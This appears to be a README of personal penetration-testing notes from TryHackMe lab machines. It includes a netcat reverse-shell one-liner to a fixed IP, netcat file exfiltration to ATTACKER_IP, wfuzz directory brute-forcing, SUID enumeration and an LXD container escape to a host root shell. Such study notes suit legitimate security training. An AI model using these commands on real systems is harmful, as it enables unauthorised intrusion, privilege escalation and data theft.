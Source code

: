# HackNotes

This repository contains my personal notes and tricks that I've gathered while working on various machines in the TryHackMe platform. These notes serve as a guide for penetration testing and help me document my progress and findings.

Please note that these notes are a work in progress, and I'll be continuously adding more content as I progress through the challenges and machines.

## Introduction
In this repository, you will find a compilation of various tricks, commands, and techniques that can be useful during penetration testing activities. These notes are intended to assist in the process of hacking and securing systems.

## Tricks
Here are some handy tricks to enhance your pentesting workflow:

#### Spawn a fully interactive shell:
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

#### Reverse shell using Netcat:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.22.27 4444 >/tmp/f
```

#### Set appropriate permissions for `id_rsa` file before usage:
```
chmod 600 id_rsa
```

#### File Transfer on Netcat

1. To download a file on the remote shell:
```
nc ATTACKER_IP ATTACKER_PORT < [file_to_download]
```
2. To receive the file on the attacker machine:
```
nc -l ATTACKER_PORT > [output_file_path]
```

#### Web
Discover hidden directories using `wfuzz`:
```
wfuzz -w /usr/share/dirb/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404 http://10.10.47.7/island/2100/FUZZ.ticket
```
####  Encoding techniques:
- [splitbrain](https://www.splitbrain.org/_static/ook/)
- [hashes](https://hashes.com/en/tools/hash_identifier)
- [md5hashing](https://md5hashing.net/hash)
- [cyberchef](https://gchq.github.io/CyberChef/)

## Additional Notes
Here are some additional notes that might come in handy during your penetration testing journey:

#### Read a raw file using `xxd`:
```
xxd -r file.raw > output.txt
```
#### terminal hack
`l\s`: Equivalent to `ls`

#### Transfer files using `scp`:
```
scp backup.zip toor@192.168.122.30:/home/username_of_remote_host
```
#### Decompress a gzip file:
```
gzip -d file.gz
```

#### Privilege Escalation:
Identify SUID/SGID files:
```
find / -type f -perm /4000 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
```
LXD container exploitation:
```
wget archive
lxc image import ./archive --alias myimage
lxc image list
lxc init myimage ignite -c security.privileged=true # If not working, use FINGERPRINT
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
```

Happy hacking!
